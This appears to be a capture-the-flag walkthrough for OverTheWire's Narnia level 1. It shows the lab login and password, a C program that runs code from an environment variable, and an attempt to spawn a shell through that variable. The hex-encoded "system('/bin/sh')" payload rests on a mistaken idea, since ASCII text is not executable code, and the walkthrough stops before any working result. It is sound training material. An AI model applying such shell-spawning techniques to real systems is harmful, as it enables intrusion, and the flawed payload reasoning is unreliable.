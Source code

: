<h1>Narnia 1 &#x2192; Narnia 2 </h1>

<p>There is no information for this level, intentionally.</p>

<h1>Solution</h1>

```bash
user@host:~$ ssh narnia1@narnia.labs.overthewire.org -p 2226
efeidiedae
```

Just like in level 0 we will navigate to the `/narnia` directory, as there were some programs for each level. Let us first take a look at the program `narnia1`:

```bash
narnia1@narnia:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG
```

The source code for the program is (excluding the licensing information):

```c
narnia1@narnia:/narnia$ cat narnia1.c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

The program will try to execute whatever is in the environment variable `EGG`. Currently, that variable is NULL.

```sh
narnia1@narnia:/narnia$ echo $EGG

```

Let us try to spawn a shell by exporting `system('/bin/sh')` as bytes into `EGG`. Again, we can use python to do this.

``` python
egg: str = "\\x" + "\\x".join(f"{b:x}" for b in b"system('/bin/sh')")
print(egg)
>>> '\x73\x79\x73\x74\x65\x6d\x28\x27\x2f\x62\x69\x6e\x2f\x73\x68\x27\x29'
```

[narnia level 1](1.md)
	[narnia level 3](3.md)
